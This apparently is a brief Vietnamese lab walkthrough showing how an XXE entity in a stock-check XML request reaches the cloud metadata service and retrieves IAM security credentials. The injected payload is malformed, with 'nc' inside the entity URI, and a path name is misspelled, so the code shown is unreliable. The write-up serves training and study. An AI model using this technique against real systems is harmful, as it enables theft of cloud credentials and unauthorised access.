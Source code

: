 ## Exploiting XXE to perform SSRF attacks

1. Trong chức năng check stock sản phẩm có thể thấy đoạn mã xml sẽ được gửi lên server để query dữ liệu. 

2. Thử tạo 1 external entity để truy xuất đến IP được cung cấp với ``<!DOCTYPE test [ <!ENTITY xxe SYSTEM "nc http://169.254.169.254/"> ]>`` thì nhận được

![Img1](\asset/../img/detect.png)

3. Ở đây nhận thấy nội dung của ``&xxe;`` là folder `lastest`. Gắn vào sau url trong DTD

4. Cứ như vậy cho đến url trở thành ``/latest/meta-data/iam/security-credentials/admin`` nhận được 1 file json chứa thông tin key cần tìm

![Img2](\asset/../img/done.png)